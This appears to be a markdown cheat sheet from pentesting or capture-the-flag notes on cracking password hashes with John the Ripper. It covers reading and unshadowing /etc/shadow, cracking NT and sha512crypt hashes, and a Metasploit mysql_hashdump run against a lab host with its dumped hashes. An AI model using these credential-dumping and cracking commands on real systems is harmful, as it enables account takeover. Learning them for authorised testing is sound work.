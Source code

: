 => Bruteforce Hashes

# Basic Syntax

`john [options] [path to file]`

John has built-in features to detect what type of hash it's being given. (not always the best option)
To do this use:

`john --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt`

To look for the password afterwards:

`john --show hash_to_crack.txt`

see #wordlists, #hash for more...

If the automated hash detection doesnt work you can use tools to identify the correct hash: [identify the type of the hash](hashing.md#hash%20identification)
and then use the `--format` option:

`john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash_to_crack.txt`

 If the hash is a standard type you have to use `raw-`, to check if your hash is a standard type use: `john --list=formats | grep -iF "md5"`

## Windows Passwords

[Windows Authentication](windows.md#authentication)

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

## Linux Passwords

[Linux - Password Storage](linux.md#password%20storage)

John can be very particular about the formats it needs data in to be able to work with it, for this reason- in order to crack `/etc/shadow` passwords, you must combine it with the `/etc/passwd`
file in order for John to understand the data it's being given. To do this, we use a tool built into the John suite of tools called unshadow. The basic syntax of unshadow is as follows:

`unshadow local_passwd local_shadow > unshadowed.txt`

After that start the crack:

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadowed.txt`

When using unshadow, you can either use the entire /etc/passwd and /etc/shadow file- if you have them available, or you can use the relevant line from each. 

Example:

```
cat /etc/passwd | grep root > rootpasswd.txt
cat /etc/shadow | grep root > rootshadow.txt
unshadow rootpasswd.txt rootshadow.txt > roothash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt roothash.txt
john --show roothash.txt
```


# Examples

Exploit MySQL with [MetaSploit](metasploit)

```
use auxiliary/scanner/mysql/mysql_hashdump 
options
set RHOSTS 10.10.60.123
set USERNAME root
set PASSWORD password
exploit
```

Output:

```
[+] 10.10.60.123:3306     - Saving HashString as Loot: root:
[+] 10.10.60.123:3306     - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.60.123:3306     - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.60.123:3306     - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.60.123:3306     - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.60.123:3306     - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
[*] 10.10.60.123:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

And Bruteforce:

```
echo carl:*EA031893AA21444B170FC2162A56978B8CEECE18 > hash.txt
john hash.txt
```

# FAQ

## No password hashes loaded (see FAQ)

Is coming up after using [unshadow](#Linux%20Passwords): If you view the output file and see **\$y\$** right after the username, then that indicates the passwords are hashed with **yescrypt**.

Then you should use `john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt` instead of `--foramt=sha512crypt`